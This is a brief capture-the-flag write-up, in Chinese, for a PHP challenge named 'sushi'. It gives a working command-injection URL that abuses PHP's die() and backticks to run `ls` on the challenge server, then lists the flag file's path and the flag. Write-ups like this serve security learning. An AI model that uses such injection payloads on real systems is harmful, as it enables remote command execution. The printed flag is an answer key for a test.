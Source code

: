 ### sushi
#### solution
這題在`die`當中可以進行injection，而只要搭配php的backtick執行指令，結果就會被`die`輸出。
http://104.199.235.135:31333/?%F0%9F%8D%A3=\{$\{die(\`ls\`)\}\}
可以得知 flag 藏在：
http://104.199.235.135:31333/flag_name_1s_t00_l0ng_QAQQQQQQ
#### flag
```
AIS3{php_is_very_very_very_easyyyyyy}
```
